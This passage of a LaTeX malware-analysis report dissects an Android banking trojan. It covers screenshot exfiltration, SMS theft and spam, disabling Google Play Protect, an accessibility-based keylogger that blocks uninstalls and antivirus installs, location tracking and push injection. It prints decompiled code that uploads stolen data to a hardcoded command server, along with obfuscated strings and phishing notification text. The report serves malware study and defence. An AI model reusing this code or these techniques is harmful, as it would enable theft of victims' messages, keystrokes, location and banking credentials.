                FileOutputStream fileOutputStream = new FileOutputStream(file);
                fileOutputStream.write(this.f555fddo);
\end{lstlisting}

Meanwhile the Service \textit{naqsl.ebxcb.exu.API.Screenshot.ServiceSendRequestImageVNC} will be started which is intended to send the image to a Web server. The function \textit{naqsl.ebxcb.exu.API.Screenshot.ServiceSendRequestImageVNC.onHandleIntent}
reads the image from disk and passes it together with the target url into the function \textit{intR.fddo} (see Listing \ref{servicesendrequestimageonhandleintent}).

\begin{lstlisting}[label=servicesendrequestimageonhandleintent,caption=The function \textit{naqsl.ebxcb.exu.API.Screenshot.ServiceSendRequestImageVNC.onHandleIntent} writes the file to disk as well as invokes the \textit{naqsl.ebxcb.exu.Cint.fddo()} function which is inteded to send the data to a Web server.,frame=tb]
    public void onHandleIntent(Intent intent) {
        Cint intR = new Cint();
        String str = "vnc";
        String str2 = "stop";
        String str3 = "";
        String str4 = "websocket";
        [...]
                byte[] ifdf = Cint.ifdf(
                                  new File(getExternalFilesDir(null), "screenshot.jpg"));
                StringBuilder sb = new StringBuilder();
                sb.append(this.f556fddo);
                sb.append(".jpg");
                intR.fddo((Context) this, ifdf, sb.toString());
\end{lstlisting}

The \textit{naqsl.ebxcb.exu.Cint.fddo()} builds the target url (in this test case: "http://hangikapi.com/o1o/a1.php") and passes some additional parameters to the \textit{java.net.HttpURLConnection}. After the header and other information was sent the image data will transfered with the call \textit{        dataOutputStream.write(bArr);} (see Listing \ref{screenshotupload}).

This is the full flow of the Screenshot malware feature.

\newpage
\begin{lstlisting}[label=screenshotupload,caption=The function \textit{naqsl.ebxcb.exu.Cint.fddo()} sends the screenshot to a Web server.,frame=tb]
public void fddo(Context context, byte[] bArr, String str) {
        String fddo2 = fddo(context, m430int("d2Vic29ja2V0"));
        StringBuilder sb = new StringBuilder();
        sb.append(fddo2);
        this.f602fddo.getClass();
        sb.append("/o1o/a1.php");
        String sb2 = sb.toString();
        String str2 = m430int("Z2V0ZmlsZXM="); // getfiles
        String str3 = m430int("Vk5DW10="); \\ VNC[]
        String str4 = m430int("XHJcbg=="); \\ \r\n
        String str5 = m430int("LS0="); \\ --
        String str6 = m430int("KioqKio="); \\ *****
        HttpURLConnection httpURLConnection = (HttpURLConnection) new URL(sb2)
                                                                   .openConnection();
        httpURLConnection.setUseCaches(false);
        httpURLConnection.setDoOutput(true);
        httpURLConnection.setRequestMethod(m430int("UE9TVA==")); \\ POST
        httpURLConnection.setRequestProperty
                                 (m430int("Q29ubmVjdGlvbg=="), 
                                 m430int("S2VlcC1BbGl2ZQ==")); 
                                 \\ Connection, Keep-Alive
        httpURLConnection.setRequestProperty(
                                 m430int("Q2FjaGUtQ29udHJvbA=="), 
                                 m430int("bm8tY2FjaGU=")); 
                                 \\ Cache-Control, no-cache
        String str7 = m430int("Q29udGVudC1UeXBl");  \\ Content-Type
        StringBuilder sb3 = new StringBuilder();
        sb3.append(m430int("bXVsdGlwYXJ0L2Zvcm0tZGF0YTtib3VuZGFyeT0=")); 
                                 \\ multipart/form-data;boundary=
        sb3.append(str6);
        httpURLConnection.setRequestProperty(str7, sb3.toString());
        DataOutputStream dataOutputStream = new DataOutputStream(
                                                  httpURLConnection.getOutputStream());
        StringBuilder sb4 = new StringBuilder();
        sb4.append(str5);
        sb4.append(str6);
        sb4.append(str4);
        dataOutputStream.writeBytes(sb4.toString());
        StringBuilder sb5 = new StringBuilder();
        sb5.append("Content-Disposition: form-data; name=\"serverID\"");
        sb5.append(str4);
        dataOutputStream.writeBytes(sb5.toString());
        dataOutputStream.writeBytes(str4);
        dataOutputStream.write(str2.getBytes());
        dataOutputStream.writeBytes(str4);
        StringBuilder sb6 = new StringBuilder();
        sb6.append(str5);
        sb6.append(str6);
        sb6.append(str5);
        sb6.append(str4);
        dataOutputStream.writeBytes(sb6.toString());
        StringBuilder sb7 = new StringBuilder();
        sb7.append(str5);
        sb7.append(str6);
        sb7.append(str4);
        dataOutputStream.writeBytes(sb7.toString());
        StringBuilder sb8 = new StringBuilder();
        sb8.append("Content-Disposition: form-data; name=\"");
        sb8.append(str3);
        sb8.append("\";filename=\"");
        sb8.append(str);
        sb8.append("\"");
        sb8.append(str4);
        dataOutputStream.writeBytes(sb8.toString());
        dataOutputStream.writeBytes(str4);
        dataOutputStream.write(bArr);
\end{lstlisting}

\newpage
\subsubsection{SMS STEALING} \label{smsstealing}
The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS} implements the database interaction to read SMS messages from. The function \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.onCreate} defines what database tables to select for perform the queries (see Table XX) and calls the function \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.fddo}.

\begin{description}
\item[sms/sent]
\item[sms/inbox]
\item[sms/draft]
\end{description}
\begin{center}
Table XX: Tables of SMS message to be fetched from database.
\end{center}

The \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.fddo} function performs the database retrieves a \textit{ContentResolver} and performs the query. It iterates through all entries and adds them using a hardcoded pattern to a string. This string will be returned to the \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.onCreate}  function. Here the function \textit{naqsl.ebxcb.exu.int.fddo(Context context, String str, String str2)} will be called in order to send the results to a Web server. The second argument is a hardcoded string "4" and the third argument are the SMS messages. Depending on the second argument the target url will be created (see Listing XX). Next is to gather the \textbf{url} tag from \textit{SharedPreferences} (see chapter: \ref{datastructure}) and execute the \textit{android.os.AsyncTask.Cint\$fddo} task wich is transfer the data to the web backend using the ( 	java.net.HttpURLConnection).

\begin{lstlisting}[label=mainactivityoncreate,caption=
Listing XX: Function \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.fddo} builds the target url and calls the \textit{intR.fddo()} function which initiates the data upload.,frame=tb]
 public String fddo(Context context, String str, String str2) {
        String str3;
        String str4 = "PHRhZz48L3RhZz4="; // <tag></tag>
        try {
            if (m435catch(context)) {
                naqsl.ebxcb.exu.fddo.Cint intR = new naqsl.ebxcb.exu.fddo.Cint();
                String str5 = "";
                if (str.equals(m430int("MQ=="))) { // 1
                    str5 = m430int("L28xby9hMy5waHA="); // /o1o/a3.php
                }
                if (str.equals(m430int("Mg=="))) { // 2
                    str5 = m430int("L28xby9hNC5waHA="); // /o1o/a4.php
                }
                [...]
                if (str.equals(m430int("MjU="))) { // 25
                    str5 = m430int("L28xby9hMjUucGhw"); // /o1o/a25.php
                }
                try {
                    String fddo2 = fddo(context, m430int("dXJs")); // url
                    if (fddo2 == null) {
                        fddo2 = this.f602fddo.f473for;
                    }
                    StringBuilder sb = new StringBuilder();
                    sb.append(fddo2);
                    sb.append(str5);
                    str3 = intR.fddo(sb.toString(), str2);
\end{lstlisting}


This attack will be started from the \textit{naqsl.ebxcb.exu.ServiceCommands} Service (read more in chapter \ref{featureselection}.

\newpage
\subsubsection{SMS SPAM} \label{smsspam}
This is the full list of API calls of the malware to the \textit{android.telephony.SmsManager}. The list tells that the malware is interacting with the \textit{android.telephony.SmsManager} and is going to send SMS messages.

\begin{spverbatim}
Landroid/telephony/SmsManager;->divideMessage(Ljava/lang/String;)Ljava/util/ArrayList;
Landroid/telephony/SmsManager;->getDefault()Landroid/telephony/SmsManager;
Landroid/telephony/SmsManager;
      ->sendMultipartTextMessage(Ljava/lang/String;
                                Ljava/lang/String;
                                Ljava/util/ArrayList;
                                Ljava/util/ArrayList;
                                Ljava/util/ArrayList;
Landroid/telephony/SmsMessage;->createFromPdu([B)Landroid/telephony/SmsMessage;
Landroid/telephony/SmsMessage;->getDisplayMessageBody()Ljava/lang/String;
Landroid/telephony/SmsMessage;->getDisplayOriginatingAddress()Ljava/lang/String;
\end{spverbatim}
\begin{center}
Listing XX: List of API calls to \textit{android.telephony.SmsManager} showing that the malware create messages and sends them via the \textit{android.telephony.SmsManager.sendMultipartTextMessage} call.
\end{center}

The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityGetNumber} implements the method 
\\ \textit{naqsl.ebxcb.exu.Activity.ActivityGetNumber.fddo(ContentResolver contentResolver, String str)} which is intended to query the phone numbers from the address book using the \textit{ContentResolver.query()} API function (see Listing \ref{activitygetnumberfddo}). While iterating through the entries each row of the table will be parsed and passed as argument to the call of the function \textit{this.f559fddo.m447int(this, string, str);}


\begin{lstlisting}[label=activitygetnumberfddo,caption=The function \textit{naqsl.ebxcb.exu.Activity.ActivityGetNumber.fddo(ContentResolver contentResolver, String)} queries the list of phone numbers stored in the device address book and forwards each entry \textit{naqsl.ebxcb.exu.Cint.m447int(Context context, String str, String str2)} function.,frame=tb]
public void fddo(ContentResolver contentResolver, String str) {
        String str2;
        String str3;
        Cursor query = contentResolver.query(Phone.CONTENT_URI, null, null, null, null);
        [...]
        while (true) {
            str2 = "p=";
            str3 = "4";
            if (!query.moveToNext()) {
                break;
            }
            String string = query.getString(query.getColumnIndex("data1"));
            if (!string.contains("*") && !string.contains("#") && string.length() > 7) {
                try {
                    this.f559fddo.m447int(this, string, str);
                    [...]
                } catch (Exception unused) {
                    [...]
                    sb2.append("|Error sending SMS, maybe there are no permission to send!|");
                    [...]
                }
            }
        }
        z = z2;
        if (z) {
            [...]
            sb4.append("|The dispatch was successful, ");
            sb4.append(i);
            sb4.append(" SMS sent|");
            [...]
\end{lstlisting}

The function \textit{naqsl.ebxcb.exu.Cint.m447int(Context context, String str, String str2)} fetches the 
\\ \textit{android.telephony.SmsManager}\cite[reference/android/telephony/SmsManager]{AndroidDev} and invokes the 
\\ \textit{android.telephony.SmsManager.sendMultipartTextMessage}.
\begin{lstlisting}[label=mainactivityoncreate,caption=The function \textit{naqsl.ebxcb.exu.Cint.m447int(Context context, String str, String str2)} prepares a mulipart message and sends it to a new victim.,frame=tb]
    public void m447int(Context context, String str, String str2) {
        SmsManager smsManager = SmsManager.getDefault();
       	[...]
        smsManager.sendMultipartTextMessage(str, null, divideMessage, arrayList, arrayList2);
    }
\end{lstlisting}


This attack will be started from the \textit{naqsl.ebxcb.exu.ServiceCommands} Service (read more in chapter \ref{featureselection}).

\newpage
\subsubsection{DISABLE GOOGLE PLAY PROTECT} \label{playprotect}
The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityPlayProtect} implements the function \textit{onCreate} witch prepares an intent starting the \textit{com.google.android.gms.security.settings.VerifyAppsSettingsActivity} activity (see Listing \ref{activityplayprotectoncreate}). 

\begin{lstlisting}[label=activityplayprotectoncreate,caption=The \textit{naqsl.ebxcb.exu.Activity.ActivityPlayProtect.onCreate} function is intended to open the Google Play Protect screen so that the user or the Accessibility Service of the malware is potentially able to disable the protection from Google.,frame=tb]
public class ActivityPlayProtect extends Activity {
    [...]
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        [...]
        Intent intent = new Intent();
        intent.setClassName("com.google.android.gms",
                     "com.google.android.gms.security.settings.VerifyAppsSettingsActivity");
        try {
            startActivity(intent);
        } catch (ActivityNotFoundException unused) {
        }
    }
\end{lstlisting}

Now the \textit{AccessibilityService} implementation will receive an \textit{AcessibilityEvent} telling about window changes. The malware will detect that the Google Play Protect settings are opened and will force the window to quit (see Listing \ref{onaccessibilityeventdisableplayprotect} and chapter \ref{keylogger}).

\begin{lstlisting}[label=onaccessibilityeventdisableplayprotect,caption=The function \textit{naqsl.ebxcb.exu.ServiceAccessibility.onAccessibilityEvent()} finalizes the last step of the disable Google Play Protect attack using the \textit{android.view.accessibility.AccessibilityNodeInfo.performAction()} function. Afterwards the settings will be closed by calling the \textit{naqsl.ebxcb.exu.ServiceAccessibility.fddo()} function.,frame=tb]
public void onAccessibilityEvent(android.view.accessibility.AccessibilityEvent r24) {

            [...]
            [...]
            r4.performAction(r3)     // Catch:{ Exception -> 0x0568 }
            [...]
            java.lang.String r8 = 
                  "ZkNCRWFYTmhZbXhsSUZCc1lYa2dVS" + 
                  "Ep2ZEdWamRDQkJZM1JwYjI0Z1BDQk" + 
                  "dhVzVoYkNCVGRHVndJRDRnUTA5TlV" + 
                  "FeEZWRVZFSVNCOA==" 
                  \\| Disable Play Protect Action < Final Step > COMPLETED! |
            java.lang.String r8 = naqsl.ebxcb.exu.Cint.m430int(r8)     
            java.lang.String r8 = naqsl.ebxcb.exu.Cint.m430int(r8)    
            r9.append(r8)     // Catch:{ Exception -> 0x056e }
            java.lang.String r8 = r9.toString()     // Catch:{ Exception -> 0x056e }
            java.lang.String r5 = r5.m439for(r8)     // Catch:{ Exception -> 0x056e }
            r11.append(r5)     // Catch:{ Exception -> 0x056e }
            java.lang.String r5 = r11.toString()     // Catch:{ Exception -> 0x056e }
            r3.fddo(r0, r4, r5)     // Catch:{ Exception -> 0x056e }
            r23.fddo()     // Catch:{ Exception -> 0x056e }
\end{lstlisting}

This attack will be started from the \textit{naqsl.ebxcb.exu.StartWhileGlobal} Service (read more in chapter \ref{featureselection}).

\newpage
\subsubsection{KEYLOGGING AND MORE (USING ACCESSIBILITY FRAMEWORK)} \label{keylogger}
As the API calls list and the Manifest tells, the malware is able to setup an \textit{ 	android.accessibilityservice.AccessibilityService} (see Listing \ref{listofaccessibilitycalls} and chapter \ref{manifest}). By setup an \textit{AccessibilityService} the malware is able to:

\begin{description}
\item[Read UI structure] Accessibility Services can access all UI elements visible on screen and gather their contents like text, pictures and much more
\item[Inject UI actions] Inject Clicks, Long-Click, Double-Click, text, copy/paste, scroll up or down, dismiss Activities and much more
\item[Collect UI actions] Record every Touch / Click and every keystroke done by the user 
\end{description}
\begin{center}
Table XX: List of Accessibility features on Android accessibile for enabled Accessibility services \cite{ExploitingAccessibilityInOperatingSystems}.
\end{center}

Listing \ref{listofaccessibilitycalls} lists all API calls to the Accessibility Framework of Android. The call to \textit{android.view.accessibility.AccessibilityNodeInfo.findAccessibilityNodeInfosByText()} can be used to search for UI widgets like password fields, credit card number fields, etc. and gather their text using the \textit{android.view.accessibility.AccessibilityNodeInfo.getText()} function. Also input events can be gathered by listen for \textit{android.view.accessibility./AccessibilityEvent} actions and gather their text by calling 
\\ \textit{android.view.accessibility.AccessibilityEvent.getText()} \cite[/reference/android/view/accessibility/AccessibilityRecord\#getText()]{AndroidDev}. Additionally the malware has the power to close Activities by using the 
\\ \textit{android.accessibilityservice.AccessibilityService.performGlobalAction} function and passing the corresponding params. This can be used to close the Settings screen when the user tries to uninstall the malware \cite[/reference/android/accessibilityservice/AccessibilityService\#performGlobalAction(int)]{AndroidDev}.

\begin{lstlisting}[label=listofaccessibilitycalls,caption=List of calls to the Accessibility framework of Android. The malware is searching for UI widgests as well as performs global actions (can dismiss Activities like Settings) and gather text entered into UI widgets.,frame=tb]
Landroid/view/accessibility/AccessibilityEvent;
Landroid/view/accessibility/AccessibilityEvent;->getClassName()Ljava/lang/CharSequence;
Landroid/view/accessibility/AccessibilityEvent;->getPackageName()Ljava/lang/CharSequence;
Landroid/view/accessibility/AccessibilityEvent;
                ->getSource()Landroid/view/accessibility/AccessibilityNodeInfo;
Landroid/view/accessibility/AccessibilityEvent;->getText()Ljava/util/List;
Landroid/view/accessibility/AccessibilityEvent;)Ljava/lang/String;
Landroid/view/accessibility/AccessibilityManager;
Landroid/view/accessibility/AccessibilityManager;
               ->getEnabledAccessibilityServiceList(I)Ljava/util/List;
Landroid/view/accessibility/AccessibilityNodeInfo;
Landroid/view/accessibility/AccessibilityNodeInfo;->performAction(I)Z;
Landroid/view/accessibility/AccessibilityNodeInfo;
               ->findAccessibilityNodeInfosByText(Ljava/lang/String;)Ljava/util/List;
Landroid/view/accessibility/AccessibilityNodeInfo;
                >getChild(I)Landroid/view/accessibility/AccessibilityNodeInfo;
Landroid/view/accessibility/AccessibilityNodeInfo;->getClassName()Ljava/lang/CharSequence;
Landroid/view/accessibility/AccessibilityNodeInfo;
               ->getContentDescription()Ljava/lang/CharSequence;
Landroid/view/accessibility/AccessibilityNodeInfo;
               ->getPackageName()Ljava/lang/CharSequence;
Landroid/view/accessibility/AccessibilityNodeInfo;->getText()Ljava/lang/CharSequence;
Landroid/view/accessibility/AccessibilityNodeInfo;->toString()Ljava/lang/String;
Landroid/accessibilityservice/AccessibilityService;->performGlobalAction(I)Z
\end{lstlisting}

In order to approve that the malware is going to log the input events of Apps the debugger was used to track the input events.

Figure \ref{fig:accessibility_event_bp} is showing the Android web browser while the string "test123" is entered into the searchbar. On the right side of the emulator the debugger output is visible that shows the contents of the AccessibilityEvent received by the malware. The member mText contains a list of spannable strings, in our case with one item with text "test123". So at this point it's certain that this malware is able to collect user input and window content.

%\linewidth%

\begin{figure}[H]
  \begin{center}
  
\includegraphics[width=\linewidth]{accessibility_event_bp.png}
  \end{center}
  \caption{Attaching the debugger and settings a breakpoint to \textit{android.view.accessibility.AccessibilityEvent.recycler()} is showing all Accessibility events received by the malware.}
  \label{fig:accessibility_event_bp}
\end{figure}


The class \textit{naqsl.ebxcb.exu.ServiceAccessibility} implements the function \textit{naqsl.ebxcb.exu.ServiceAccessibility.onAccessibilityEvent} which is beeing triggered on every Accessibility interaction forwarded by the operating system. Here the malware is performing multiple actions depending on what is currently shown to the user.

For example if the user enters the Google Play Protect settings screen in order to enable Google Play Protect the Accessibility service will quit the settings screen bofe the user can do any interaction with it (see Listing \ref{onaccessibilityserviceclosesettings}).

\newpage
\begin{lstlisting}[label=onaccessibilityserviceclosesettings,caption=The \textit{AccessiblityService} is able to detect wether a user is trying to enable Google Play Protect and leaves the screen using the \textit{naqsl.ebxcb.exu.ServiceAccessibility.fddo()} function.,frame=tb]
public void onAccessibilityEvent(android.view.accessibility.AccessibilityEvent r24) {

            [...]
            java.lang.String r3 = "ZkNCQlRFVlNWQ0JCZEhSbGJYQjBJSFJ2SUVWdVlXSnNaU0JRYkdGNUlGQnliM1JsWTNRZ0lYdz0=" // | ALERT Attempt to Enable Play Protect !|
            java.lang.String r3 = naqsl.ebxcb.exu.Cint.m430int(r3)     // Catch:{ Exception -> 0x0651 }
            java.lang.String r3 = naqsl.ebxcb.exu.Cint.m430int(r3)     // Catch:{ Exception -> 0x0651 }
            r11.append(r3)     // Catch:{ Exception -> 0x0651 }
            java.lang.String r3 = r11.toString()     // Catch:{ Exception -> 0x0651 }
            java.lang.String r3 = r9.m439for(r3)     // Catch:{ Exception -> 0x0651 }
            r8.append(r3)     // Catch:{ Exception -> 0x0651 }
            java.lang.String r3 = r8.toString()     // Catch:{ Exception -> 0x0651 }
            r4.fddo(r0, r5, r3)     // Catch:{ Exception -> 0x0651 }
            r23.fddo()     // Catch:{ Exception -> 0x056e }
            [...]
\end{lstlisting}


The function \textit{naqsl.ebxcb.exu.ServiceAccessibility.fddo()} enforces the current Activity to be closed by performing multiple global actions or starting the Launcher intent what causes to let the Launcher to come on top of the screen (see Listing \ref{serviceaccessibilityglobalaction}.

\begin{lstlisting}[label=serviceaccessibilityglobalaction,caption=The function \textit{naqsl.ebxcb.exu.ServiceAccessibility.fddo()} presses three times back and then leaves the current App or calls \textit{android.app.Activity.startActivity()} using the Launcher intent in order to bring the Launcher on top of the streen.,frame=tb]
    public void fddo() {
        if (VERSION.SDK_INT >= 16) {
            performGlobalAction(1); // GLOBAL_ACTION_BACK
            performGlobalAction(1); // GLOBAL_ACTION_BACK
            performGlobalAction(1); // GLOBAL_ACTION_BACK
            performGlobalAction(2); // GLOBAL_ACTION_HOME
        }
        if (VERSION.SDK_INT < 16) {
            Intent intent = new Intent("android.intent.action.MAIN");
            intent.addCategory("android.intent.category.HOME");
            intent.setFlags(268435456);
            startActivity(intent);
        }
    }
\end{lstlisting}

Here is a list of actions the Accessibility service tries to prevent:

\begin{description}
\item[Prevent install AV] The malware is trying to prevent the user from install an Anti Virus software.
\item[Prevent install AV from Web] The malware is trying to prevent the user from install an Anti Virus software via the Web browser.
\item[Prevent reset the system] The malware is trying to prevent the user from performing a factory reset.
\item[Prevent uninstall malware] The malware is trying to prevent the user uninstall the malware.
\item[Prevent withdraw permissions of malware] The malware is trying to prevent the user from withdraw Accessibility permission.
\end{description}

In order to gather the \textit{android.permission.BIND\_ACCESSIBILITY} permission which let the operating system start the Accessibility Service the user has to approve the permission from settings. In order to enforce the user to do that the Service \textit{naqsl.ebxcb.exu.StartWhileRequest} launches the Activity \textit{naqsl.ebxcb.exu.Activity.ActivityAccessibility} frequently in a loop till the Accessibility permission is granted (see Listing \ref{startwhilerequeststartsactivityaccessibility}. Also a \textit{Toast} message will be shown telling the user to grant Accessibility permission to the malware.

\newpage
\begin{lstlisting}[label=startwhilerequeststartsactivityaccessibility,caption=The Service \textit{naqsl.ebxcb.exu.StartWhileRequest} starts the \textit{naqsl.ebxcb.exu.Activity.ActivityAccessibility} frequently in a loop till the Accessibility permission was granted.,frame=tb]
    public void onHandleIntent(Intent intent) {
        [...]
        while (true) {
            [...]
            try {
                TimeUnit.MILLISECONDS.sleep((long) this.f438for);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
            [...]
            if (!inKeyguardRestrictedInputMode) {
                boolean z = intR.m449new(this);
                if (((!z && this.f593fddo.f474goto == 1) || (!z && contains)) && !intR.m449new(this)) {
                    try {
                        Intent intent2 = new Intent(this, ActivityAccessibility.class);
                        intent2.addFlags(268435456);
                        intent2.addFlags(1073741824);
                        startActivity(intent2);
                    [...]
                    if (i4 == 0 || i4 == 6) {
                        try {
                            startService(new Intent(this, ServiceToast.class));
                        } catch (Exception unused4) {
                    [...]
\end{lstlisting}


The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityAccessibility} just launches the Acessibility Settings screen (see Listing \ref{activityaccessibilityoncreate}).


\begin{lstlisting}[label=activityaccessibilityoncreate,caption=The function \textit{naqsl.ebxcb.exu.Activity.ActivityAccessibility.onCreate() just launches the Activity associated with \textbf{android.settings.ACCESSIBILITY\_SETTINGS}},frame=tb]
public class ActivityAccessibility extends Activity {
    /* access modifiers changed from: protected */
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        try {
            Intent intent = new Intent("android.settings.ACCESSIBILITY_SETTINGS");
            intent.addFlags(131072);
            startActivity(intent);
\end{lstlisting}

The Keylogger of the malware is a very powerfull implementation that not only stores user input. It's very smart and takes control over the system and prevents the user from working against the malware.

\newpage
\subsubsection{LOCATION TRACKING} \label{locationtracking}
The service \textit{naqsl.ebxcb.exu.ServiceGeolocationGPS} and \textit{naqsl.ebxcb.exu.ServiceGeolocationNetwork} are Services intended to track the Location of the device. Both services are implementing a \textit{android.location.LocationListener} (see Listing \ref{locationchangedlistener}), asking for Runtime permissions like \textit{android.permission.ACCESS\_FINE\_LOCATION}, call the function \textit{android.location.LocationManager.requestLocationUpdates()} and send the results via the function \textit{naqsl.ebxcb.exu.Cint.fddo(Context context, String str, String str2)} (see chapter \ref{screenshot}, Listing \textit{locationifdf} and Listing XX(the function)XX.

\begin{lstlisting}[label=locationchangedlistener,caption=The \textit{onLocationChanged} function calls ifdf which is intended to send the data to a Web server.,frame=tb]
    class fddo implements LocationListener {
        fddo() {
        }

        public void onLocationChanged(Location location) {
            ServiceGeolocationGPS.this.ifdf(location);
        }
        [...]
\end{lstlisting}


\begin{lstlisting}[label=locationifdf,caption=The function ifdf encodes the location information to a \textit{String} and passes it as argument to the function \textit{naqsl.ebxcb.exu.Cint.fddo(Context context, String str, String str2)},frame=tb]
    public void ifdf(Location location) {
        if (location != null && location.getProvider().equals("gps")) {
            Cint intR = this.f580fddo;
            String str = Cint.m430int("NQ==");
            StringBuilder sb = new StringBuilder();
            sb.append(Cint.m430int("cD0="));
            Cint intR2 = this.f580fddo;
            StringBuilder sb2 = new StringBuilder();
            sb2.append(this.f580fddo.fddo((Context) this));
            sb2.append(Cint.m430int("Og=="));
            sb2.append(fddo(location));
            sb2.append(Cint.m430int("OkdQUzo="));
            sb.append(intR2.m439for(sb2.toString()));
            intR.fddo((Context) this, str, sb.toString()); // intR is naqsl.ebxcb.exu.Cint
                       
        }
\end{lstlisting}

\newpage
\subsubsection{PUSH INJECTION} \label{pushinjection}
As described in chapter \ref{featureselection} the function \textit{naqsl.ebxcb.exu.ServiceCommands.fddo()} is able to start malware features. Also the \textit{naqsl.ebxcb.exu.ServiceModuleNotification} Service will be configured and launched there ( see Listing \ref{servicecommandoslaunchespushinjection} ). This service is intended to perform the push injection attack wich is able to create a malicious Android notification and meme it like it would come from a installed banking app.
 
\begin{lstlisting}[label=servicecommandoslaunchespushinjection,caption=\textit{naqsl.ebxcb.exu.ServiceCommands.fddo()} searches for some hardcoded strings matching to the device language and starts the \textit{naqsl.ebxcb.exu.ServiceModuleNotification} Service by calling the \textit{android.app.Context.startService()} method.,frame=tb]
  // TR
  java.lang.String r12 = "VkZJPQ=="
  java.lang.String r12 = naqsl.ebxcb.exu.Cint.m430int(r12)     
  java.lang.String r12 = naqsl.ebxcb.exu.Cint.m430int(r12)     
  boolean r12 = r11.contains(r12)     // Catch:{ Exception -> 0x0d76 }
  if (r12 == 0) goto L_0x0cbe
  
  // GÜVENLİK BİRİMİ
  java.lang.String r11 = "UjhPY1ZrVk9UTVN3U3lCQ3hMQlN4TEJOeExBPQ=="
  java.lang.String r11 = naqsl.ebxcb.exu.Cint.m430int(r11)     
  java.lang.String r11 = naqsl.ebxcb.exu.Cint.m430int(r11)     
  
  // Sayın müşterimiz lütfen hesabınızı onaylayın aksi takdirde bloke edilecektir.
  java.lang.String r12 =
       "VTJGNXhMRnVJRzNEdk1XZmRHVnlhVzFwZWlCc3c3eDBabVZ1SUdobGMyRml4T" + 
